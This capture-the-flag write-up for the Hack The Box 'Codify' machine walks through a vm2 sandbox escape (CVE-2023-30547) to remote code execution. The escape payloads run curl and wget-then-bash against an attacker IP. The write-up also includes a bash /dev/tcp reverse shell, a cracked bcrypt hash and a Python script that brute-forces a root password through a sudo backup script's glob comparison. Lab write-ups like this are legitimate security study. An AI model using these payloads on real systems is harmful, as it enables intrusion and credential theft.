


# Easy - Codify (machine)

## User flag
Leaked info from html:
- support@codify.htb

**Nmap scanning:**
```bash
../p8/codify➤ sudo nmap -n -Pn -sV -O -T4 codify.htb
...
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
...
```

There is a place where we can run commands:


The app is using this lib :floppy_disk: [vm2 v3.9.16](https://github.com/patriksimek/vm2/releases/tag/3.9.16) 

Ok, someone already published a CVE for a known vulnerability: https://github.com/rvizx/CVE-2023-30547. 

Actually this one is the official: https://github.com/advisories/GHSA-cchq-frgv-rjh5
- The vuln allows attacker RCE via the `promise` functionality.

`vm2` is a tool that allow users to run code in a sandboxed environment where some nodejs functionalities can be whitelisted (to make it some secure? :skull:). The usage of the tool is not recommended:


### Testing the CVE's PoC
https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9

The code being executed is:
```javascript
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('curl 10.10.14.31:55555/what.php'); }
            )
        }
    }
};
p.then();
```
Here we've got a http ping:
```bash
../p8/codify➤ python -m http.server 55555
Serving HTTP on 0.0.0.0 port 55555 (http://0.0.0.0:55555/) ...
10.10.11.239 - - [11/Jan/2024 17:27:37] code 404, message File not found
10.10.11.239 - - [11/Jan/2024 17:27:37] "GET /what.php HTTP/1.1" 404 -
```

Ok, so I was able to get a rev shell with these payload:
```javascript
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('wget 10.10.14.31:55556/x -O x; bash ./x'); }
            )
        }
    }
};
p.then();
```

The revshell: `bash -i >& /dev/tcp/10.10.14.31/55555 0>&1`

### Trying to get into joshua home dir
```bash
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ file pwned
file pwned
pwned: empty
svc@codify:~$ ls /home
ls /home
joshua
svc
svc@codify:~$ ls /home/joshua
ls /home/joshua
ls: cannot open directory '/home/joshua': Permission denied
svc@codify:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
fwupd-refresh:x:114:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false


svc@codify:~$ ls -ltra /var/www
ls -ltra /var/www
total 20
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
drwxr-xr-x  5 root root 4096 Sep 12 17:40 .
drwxr-xr-x  3 svc  svc  4096 Sep 12 17:45 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12 17:46 editor
drwxr-xr-x 13 root root 4096 Oct 31 07:57 ..


svc@codify:/var/www$ find . -type f | grep -v node_modules
find . -type f | grep -v node_modules
./editor/package.json
./editor/templates/editor.html
./editor/templates/index.html
./editor/templates/about.html
./editor/templates/limitations.html
./editor/package-lock.json
./editor/index.js
./html/index.html
./contact/package.json
./contact/templates/ticket.html
./contact/templates/login.html
./contact/templates/tickets.html
./contact/package-lock.json
./contact/tickets.db
./contact/index.js

```

There is this sqlite database file:
```bash
svc@codify:/var/www$ strings ./contact/tickets.db
strings ./contact/tickets.db
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
        tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

Let's try cracking the hash: `john -w=/usr/share/dict/rockyou.txt hash.txt``
```bash
...
Press 'q' or Ctrl-C to abort, almost any other key for status
**************       (?)
```
And we are in!!
```bash
../p8/codify➤ ssh joshua@codify.htb
...
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

## Root flag
So we have this sudo permission:
```bash
...
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh


joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

joshua@codify:~$ ls -ltra  /opt/scripts/mysql-backup.sh
-rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
```

So, the `if` condition in the bash script allows to enter wildcard/regex? expresions, for instance if we put a simple `*` as password the script gets executed succesfully:
```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

### Brute-forcing root mysql password
So given that we have two outputs from running the script, we have two different text results which is kind of a blind brute-forcing.

The server has python3 installed, so here an script that can help:
```python
import string
import subprocess

password = ""
chars = string.ascii_letters + string.digits # alphabet and digits only

while True:
    for c in chars:
        cmd = "echo '{}{}*' | sudo /opt/scripts/mysql-backup.sh".format(password, c)
        output = subprocess.run(cmd, capture_output=True, shell=True)

        if "Password confirmed" in output.stdout.decode("utf-8"):
            password += c
            break
    else:
        break

print("Password found: {}".format(password))
```

```bash
joshua@codify:~$ python3 t
...
Password found: **************
```

Turns out that password is root password:
```bash
joshua@codify:~$ su
Password:
root@codify:/home/joshua# id
uid=0(root) gid=0(root) groups=0(root)
root@codify:/home/joshua#
```

Finally, lol:
```bash
root@codify:/home/joshua# cat /root/scripts/docker/docker-compose.yml
version: '3.9'
services:
  db:
    image: mariadb:10.10
    restart: unless-stopped
    environment:
      MYSQL_DATABASE: "tickets"
      MYSQL_USER: "migrate"
      MYSQL_PASSWORD: "**************"
      MARIADB_ROOT_PASSWORD: "**************"
      MYSQL_ROOT_HOST: "127.0.0.1"
    ports:
      - 127.0.0.1:3306:3306
    volumes:
      - database_volume:/var/lib/mysql

volumes:
  database_volume:
```

## TODOs
- ?
